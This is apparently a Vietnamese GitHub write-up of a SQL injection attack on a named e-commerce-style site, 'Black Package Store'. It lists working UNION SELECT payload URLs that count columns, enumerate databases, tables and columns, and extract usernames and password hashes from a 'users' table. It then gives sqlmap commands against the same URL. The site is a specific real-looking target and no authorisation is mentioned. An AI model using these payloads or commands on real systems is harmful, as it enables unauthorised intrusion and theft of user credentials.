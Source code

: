 # TỔNG QUAN # 
Kiểm tra trên web "Black Package Store" `https://blackpackagestore.com/product.php?id=72`

# CÁC BƯỚC

![image](https://github.com/user-attachments/assets/df34c6d3-c54f-4b61-a8d8-c942b15b4122)

# Dò tìm số cột

![image](https://github.com/user-attachments/assets/f1267547-fce3-4a83-8b3a-c647b831057b)

![image](https://github.com/user-attachments/assets/f9557a86-761c-4539-8d4a-e08855dc7b98)

![image](https://github.com/user-attachments/assets/8b967633-6006-433d-80f3-3611674607cc)

![image](https://github.com/user-attachments/assets/3d4a301c-ba81-467e-a6a6-8014fc79e6f1)

# Kiểm tra database, version, 

https://blackpackagestore.com/product.php?id=72+UNION+ALL+SELECT+1,2,3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22,23,24,25,26,27,28,29,30

![image](https://github.com/user-attachments/assets/81472dc4-9128-4b8a-a717-ee4fadbfa595)

![image](https://github.com/user-attachments/assets/0935da4c-e509-4d8d-9af8-eefd9a3a2906)

![image](https://github.com/user-attachments/assets/9987c07c-51a6-4722-9bc7-7745975c3fde)

![image](https://github.com/user-attachments/assets/9ea8ba0d-4071-424b-98bb-1dde03b22b6f)

# Trích xuất cơ sở dữ liệu

**1. Liệt kê các database**

https://blackpackagestore.com/product.php?id=72+UNION+SELECT+1,2,3,group_concat(0x7c,schema_name,0x7c),5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22,23,24,25,26,27,28,29,30+from+information_schema.schemata

![image](https://github.com/user-attachments/assets/3632da54-d00c-4ccb-9c56-6ec40fa147c9)

**2. Liệt kê các bảng**

https://blackpackagestore.com/product.php?id=72+UNION+SELECT+1,2,3,gRoUp_cOncaT(0x7c,table_name,0x7C),5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22,23,24,25,26,27,28,29,30+fRoM+information_schema.tables+wHeRe+table_schema='login'

![image](https://github.com/user-attachments/assets/998b38ce-8ccb-4b1b-b67a-94892b82c483)

**3. Liệt kê các cột trong bảng**

https://blackpackagestore.com/product.php?id=72+UNION+SELECT+1,2,3,gRoUp_cOncaT(0x7c,column_name,0x7C),5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22,23,24,25,26,27,28,29,30+fRoM+information_schema.columns+wHeRe+table_name=%27users%27

![image](https://github.com/user-attachments/assets/56202ebd-5494-4202-902c-8bcce97b7699)

**4. Trích xuất dữ liệu bất kì**
https://blackpackagestore.com/product.php?id=72+UNION+SELECT+1,2,3,user_name,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22,23,24,25,26,27,28,29,30+from+users

![image](https://github.com/user-attachments/assets/ae785d98-fb82-48b3-b93f-2db8573a8b2b)

https://blackpackagestore.com/product.php?id=72+UNION+SELECT+1,2,3,user_password_hash,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22,23,24,25,26,27,28,29,30+from+users

![image](https://github.com/user-attachments/assets/21f2d6bf-6f0e-40b0-a00e-1d82d634f08e)

# Sử dụng `sqlmap`

**1. Trích xuất database:**

`sqlmap -u https://blackpackagestore.com/product.php?id=72 --dbs`

![image](https://github.com/user-attachments/assets/c5c25908-7213-447b-8c11-74e926545840)

**2. Tìm kiếm thông tin về username, password, tài khoản sysadmin**

`sqlmap -u https://blackpackagestore.com/product.php?id=72 -D login --tables`

![image](https://github.com/user-attachments/assets/2127b404-259e-417a-94e4-722aec4c55b3)

`sqlmap -u https://blackpackagestore.com/product.php?id=72 -D login -T users --columns`

![image](https://github.com/user-attachments/assets/d9f17e4d-25ef-4890-ac4a-bf44a344b327)

![image](https://github.com/user-attachments/assets/fe22e570-f0ce-463b-a7e3-ea2bc8165b7f)

![image](https://github.com/user-attachments/assets/52a6f9ab-eb0d-4a26-9dcb-f3b508b81e3b)

![image](https://github.com/user-attachments/assets/2054d2a2-1b16-4880-a56e-c776fda75c70)

![image](https://github.com/user-attachments/assets/0709a901-ee5c-47ef-95ad-a21e66f6de02)

![image](https://github.com/user-attachments/assets/394ed735-6352-49a4-b918-61cc6fab1593)

